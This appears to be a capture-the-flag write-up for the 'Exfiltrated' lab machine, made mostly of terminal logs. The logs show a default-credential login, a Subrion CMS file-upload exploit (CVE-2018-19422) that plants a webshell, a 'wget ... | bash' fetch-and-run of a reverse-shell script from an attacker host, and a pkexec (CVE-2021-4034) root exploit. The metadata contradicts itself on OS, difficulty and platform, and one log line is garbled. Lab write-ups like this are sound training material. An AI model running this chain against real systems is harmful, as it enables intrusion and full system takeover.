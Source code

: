 ```yaml
---

categories: [ Proving Grounds, Practice ]
tags: [ pkexec, CMS, subrion, Public Exploit, default_creds]
media_subpath: /assets/images/
image:
  width: "1200"
  height: "630"
  alt: Linux Easy Level Machine...
  path: "exfiltration.png"
---
```



| Machine Link       | https://tryhackme.com/room/set               |
| ------------------ | -------------------------------------------- |
| Operating System   | <mark style="background: #ADCCFFA6;"> Windows </mark>                                      |
| Difficulty         | <mark style="background: #FF5582A6;"> Hard </mark>                                         |
| Machine Created by | [4ndr34zz](https://tryhackme.com/p/4ndr34zz) |

## Port Scan Results ⤵️

```bash

```
{: .nolineno}
## Web Enumeration ⤵️

![Image](Pasted%20image%2020240611111807.png)

![Image](Pasted%20image%2020240611111836.png)

with default creds file admin : admin I got administrators login 🔻

![Image](Pasted%20image%2020240611111935.png)

### Exploit Usage ⤵️

https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE/tree/main

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Exfiltrated]
└─$ python3 exploit.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: dbdBd1q5Oa501bIx1p24T44TnS0UdOgA2mzUdOzG
[+] Trying to log in...
wget http://192.168.45.1616^[[2~[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: eutwjgithrbhgym

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/eutwjgithrbhgym.phar 

      

$ wget http://192.168.45.161/rev.sh | bash

$ ls
eutwjgithrbhgym.phar
ewoyjlsedzraleo.phar
rev.sh

$ ./rev.sh

$ sh rev.sh
```
{: .nolineno}


```bash
www-data@exfiltrated:/var/www/html/subrion/admin$ sudo -V
sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
www-data@exfiltrated:/var/www/html/subrion/admin$ /usr/bin/pkexec --version
/usr/bin/pkexec --version
pkexec version 0.105
www-data@exfiltrated:/var/www/html/subrion/admin$ cd /tmp
cd /tmp
www-data@exfiltrated:/tmp$ ls
ls
www-data@exfiltrated:/tmp$ wget http://192.168.45.161/pkexec_CVE-2021-4034.py
wget http://192.168.45.161/pkexec_CVE-2021-4034.py
--2024-06-11 05:43:38--  http://192.168.45.161/pkexec_CVE-2021-4034.py
Connecting to 192.168.45.161:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3067 (3.0K) [text/x-python]
Saving to: ‘pkexec_CVE-2021-4034.py’

pkexec_CVE-2021-403 100%[===================>]   3.00K  --.-KB/s    in 0.03s   

2024-06-11 05:43:38 (102 KB/s) - ‘pkexec_CVE-2021-4034.py’ saved [3067/3067]

www-data@exfiltrated:/tmp$ chmod +x pk	
chmod +x pkexec_CVE-2021-4034.py 
www-data@exfiltrated:/tmp$ python3 pkexec_CVE-2021-4034.py
python3 pkexec_CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)  

[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f7c852d6000 at 0x7f7c84b164c0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
whoami
root
# cd /root
cd /root
# ls -al
ls -al
total 28
drwx------  4 root root 4096 Jun 11 05:24 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jan  7  2021 .ssh
-rwx------  1 root root   33 Jun 11 05:24 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
# cat proof	
cat proof	
cat: proof: No such file or directory
# cat proof.txt
cat proof.txt
db0eaa7f647cd07d2a8b9b4f10322a14
# cd /home
cd /home
# ls -al
ls -al
total 12
drwxr-xr-x  3 root   root   4096 Jun 10  2021 .
drwxr-xr-x 20 root   root   4096 Jan  7  2021 ..
drwx--x--x  2 coaran coaran 4096 Jun 10  2021 coaran
# cd coaran
cd coaran
# ls -al
ls -al
total 24
drwx--x--x 2 coaran coaran 4096 Jun 10  2021 .
drwxr-xr-x 3 root   root   4096 Jun 10  2021 ..
lrwxrwxrwx 1 root   root      9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 coaran coaran  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 coaran coaran 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 coaran coaran  807 Feb 25  2020 .profile
-rwxr--r-- 1 coaran coaran   33 Jun 11 05:24 local.txt
# cat local.txt
cat local.txt
e5fb28077f505fb52883ba4deb73dc32
# 

```
{: .nolineno}
















> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }
